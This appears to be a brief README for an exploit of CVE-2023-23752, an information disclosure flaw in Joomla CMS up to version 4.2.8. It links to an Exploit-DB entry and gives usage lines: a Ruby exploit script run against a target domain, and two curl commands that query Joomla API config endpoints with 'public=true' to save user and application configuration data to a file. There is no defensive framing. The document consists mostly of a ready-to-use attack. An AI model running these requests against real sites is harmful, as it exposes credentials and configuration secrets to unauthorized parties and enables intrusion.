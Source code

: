 # Joomla CMS <= 4.2.8 CVE-2023-23752 Information Disclosure

## Link: https://www.exploit-db.com/exploits/51334

## Usage:

    exploit.rb http://DOMAIN.LOCAL (Run the preinstalled exploit from Kali Linux)

    curl http://DOMAIN.LOCAL/api/index.php/v1/config/users?public=true -o vuln.json

    curl http://DOMAIN.LOCAL/api/index.php/v1/config/application?public=true -o vuln.json (Run the exploit manually with cURL)
